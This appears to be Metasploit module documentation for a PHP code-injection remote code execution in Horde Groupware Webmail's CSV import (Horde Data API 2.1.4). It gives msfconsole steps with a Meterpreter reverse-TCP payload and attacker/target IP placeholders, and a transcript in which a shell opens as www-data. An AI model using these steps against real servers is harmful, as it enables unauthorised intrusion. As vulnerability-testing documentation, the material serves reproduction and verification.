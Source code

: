 ## Vulnerable Application

The Horde project comprises several standalone applications and libraries, the [Horde Groupware Webmail Edition suite](https://www.horde.org/apps/webmail) (tested version 5.2.22) bundles several of them by default, among those, Data ([Horde Data API](https://github.com/horde/Data)) is a library used to manage data import/export in several formats, e.g., CSV, iCalendar, vCard, etc. This library up to version 2.1.4 (included) is vulnerable to PHP code injection.

Find more information in the [original advisory](https://cardaci.xyz/advisories/2020/03/10/horde-groupware-webmail-edition-5.2.22-rce-in-csv-data-import/).

## Verification Steps

  1. Install the application (see below)
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/horde_csv_rce```
  4. Do: ```set payload php/meterpreter/reverse_tcp```
  5. Do: ```set lhost [ATTACKER IP]```
  6. Do: ```set rhost [TARGET IP]```
  7. Do: ```set username [username]```
  8. Do: ```set password [password]```
  9. Do: ```exploit```
 10. A session should open

Downgrade the Horde Data API package if needed:

```
pear uninstall --ignore-errors horde/horde_data-2.1.5
pear install --ignore-errors horde/horde_data-2.1.4
```

## Scenarios

### Horde Groupware Webmail Edition 5.2.22 with Horde Data API 2.1.4 on Debian GNU/Linux 9

```
msf > use exploit/multi/http/horde_csv_rce
msf exploit(multi/http/horde_csv_rce) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/http/horde_csv_rce) > set lhost 192.168.1.69
lhost => 192.168.1.69
msf exploit(multi/http/horde_csv_rce) > set rhost 192.168.1.69
rhost => 192.168.1.69
msf exploit(multi/http/horde_csv_rce) > set username alice
username => alice
msf exploit(multi/http/horde_csv_rce) > set password alice
password => alice
msf exploit(multi/http/horde_csv_rce) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (38288 bytes) to 172.17.0.1
[*] Meterpreter session 1 opened (172.17.0.2:4444 -> 172.17.0.1:44524) at 2020-03-14 14:55:17 +0000

meterpreter > getuid
Server username: www-data (33)
```
